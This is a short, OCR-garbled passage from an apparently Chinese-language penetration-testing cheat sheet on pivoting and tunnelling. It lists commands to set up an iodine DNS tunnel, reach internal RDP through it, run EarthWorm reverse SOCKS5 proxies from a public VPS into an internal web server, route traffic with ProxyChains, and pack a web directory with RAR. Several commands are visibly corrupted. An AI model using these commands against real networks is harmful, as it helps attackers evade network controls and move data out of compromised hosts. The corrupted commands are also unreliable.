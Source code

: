 #### iodine(支持linux、mac、windows)

```
https://github.com/Al1ex/iodine
```

- 安装服务端

```
iodined -f -c -P syst1m 192.168.0.1 vpn.xxx.com -Dp
```

- 安装客户端

```
iodine -f -p syst1m vpn.xxx.com -M 200
```

- 使用dns隧道

```
mstsc 10.0.0.1:3389
```

### SOCKS代理
- EarthWorm

```
1.正向sockes5服务器
ew -s ssocked -l 888

2. 反弹sockes5服务器(公网vps)
ew -e rcsocks -i 1080 -e 888
ew -s rssocks - d xxx.xxx.xxx.xxx -e 888 (内网web服务器）
```

- reGeorg
- sSocks
- SocksCap64
- Proxifier
- ProxyChains

```
vi /etc/proxychains.conf
cp /usr/lib/proxychains3/proxyresoly /usr/bin
proxychains firefox
```

### 压缩数据

####RAR
- 以rar格式压缩解压

```
压缩
rar.exe a -k -r- s -m3 E:\webs\1.rar E:|webs

解压
Rar.exe e E:\webs\1.rar
```
